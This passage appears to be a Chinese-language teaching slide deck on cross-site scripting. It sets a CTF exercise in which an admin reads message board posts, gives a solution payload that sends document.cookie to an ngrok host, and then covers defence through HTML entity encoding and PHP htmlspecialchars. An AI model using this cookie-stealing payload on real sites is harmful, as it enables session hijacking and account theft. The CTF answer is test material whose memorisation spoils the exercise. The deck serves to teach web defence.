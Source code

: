
![](https://i.imgur.com/Mnc0jgj.png)


---

enter 之後
![](https://i.imgur.com/kgDlVZ6.png)

---

練習這題 XSS吧
http://140.134.25.138:10007/
管理員會「看」所有留言板的留言
拿到我的cookies吧
(答案格式`CTF{}`)


----

解答:
```htmlmixed=
</td><script>document.location.href="http://32db1a40.ngrok.io/"+document.cookie</script>
```
![](https://i.imgur.com/XBbGtpu.png)

---


# 那我們該如何防禦呢?

---

# 1. 將特殊符號改成html格式

---

把 使用者輸入的文字 轉成 [HTML特殊字元編碼](https://footmark.info/web-design/html/special-symbol-table-html/)
![](https://i.imgur.com/wHXyn3j.png)

---

可以看到原始檔案 和顯示出的文字不同
而且script沒被解析
![](https://i.imgur.com/j2xGDnj.png)


---

在php 裡面也有function 可以用
```php=
<? php
$str=htmlspecialchars($str)
```

---